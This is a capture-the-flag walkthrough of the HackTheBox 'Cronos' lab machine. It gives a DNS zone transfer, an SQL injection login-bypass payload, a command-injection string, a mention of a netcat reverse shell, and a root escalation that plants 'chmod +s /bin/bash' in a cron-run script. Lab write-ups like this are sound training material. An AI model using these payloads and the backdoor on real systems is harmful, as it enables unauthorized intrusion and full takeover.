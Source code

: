 ```yaml
---
layout: post
title:  "HackTheBox - Cronos"
date:   2021-08-11 17:06:25
categories: Pentesting
---
```


# ENUMERATION

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We search for dns using gobuster since directory bruteforcing doesn't return anything interesting, but we dont find any subdomains either. So we use dig command for further enumeration:
```
AXFR offers no authentication, so any client can ask a DNS server for a copy of the entire zone. This means that unless some kind of protection is introduced, an attacker can get a list of all hosts for a domain, which gives them a lot of potential attack vectors.
```
It returns some interesting subdomains out of which admin.cronos.htb has a login page:
```s
dig axfr @10.10.10.13 cronos.htb              

; <<>> DiG 9.16.11-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 92 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Wed Aug 11 13:21:09 EDT 2021
;; XFR size: 7 records (messages 1, bytes 203)
```
# FOOTHOLD

It seems to be SQLi at work  and trying out simple payloads we see that this is successful and we are able to log in:
```
admin' or '1'='1' -- -
```
We see that it is running some traceroute and ping commands on analysing via burpsuite.So we try to run commands simultaneously:
```
8.8.8.8|id
```
It gives us the answer www-root. So we try ls and whoami in the same way ,and since both of them work, I try putting my Netcat openBSD reverse-shell and see that we have got a shell in our listener!After this we stabilise our reverse shell using socat.

User flag is in /home/noulis/user.txt

# PRIVILEGE ESCALATION

In /var/www/admin we see some config files which have mysql password and username but none of them help us escalate our privileges and also we find nothing interesting in database.
```php
www-data@cronos:/var/www/admin$ cat config.php
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```
Since the name of the box is Cronos we assumed it has something to do with crontab and see this cronjob running:
```s
www-data@cronos:/var/www/laravel$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc  ron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
#
```
We try to see what are the contents of the file and since root is running the cronjob and we have write permissions, we open the file via vim and add one line "chmod +s /bin/bash" before the exit command.Here's my final script:
```php
www-data@cronos:/var/www/laravel$ cat artisan
#!/usr/bin/env php
<?php

/*
|--------------------------------------------------------------------------
| Register The Auto Loader
|--------------------------------------------------------------------------
|
| Composer provides a convenient, automatically generated class loader
| for our application. We just need to utilize it! We'll require it
| into the script here so that we do not have to worry about the
| loading of any our classes "manually". Feels great to relax.
|
*/

require __DIR__.'/bootstrap/autoload.php';

$app = require_once __DIR__.'/bootstrap/app.php';

/*
|--------------------------------------------------------------------------
| Run The Artisan Application
|--------------------------------------------------------------------------
|
| When we run the console application, the current CLI command will be
| executed in this console and the response sent back to a terminal
| or another output device for the developers. Here goes nothing!
|
*/

$kernel = $app->make(Illuminate\Contracts\Console\Kernel::class);

$status = $kernel->handle(
    $input = new Symfony\Component\Console\Input\ArgvInput,
    new Symfony\Component\Console\Output\ConsoleOutput
);

/*
|--------------------------------------------------------------------------
| Shutdown The Application
|--------------------------------------------------------------------------
|
| Once Artisan has finished running. We will fire off the shutdown events
| so that any final work may be done by the application before we shut
| down the process. This is the last thing to happen to the request.
|

*/

exec("chmod +s /bin/bash");
$kernel->terminate($input, $status);

exit($status); 
```
After this we wait a bit and then run "bash -p" to get root.
```s
www-data@cronos:/var/www/laravel$ bash -p
bash-4.3# whoami
root
bash-4.3#
```
Root flag is in /root/root.txt
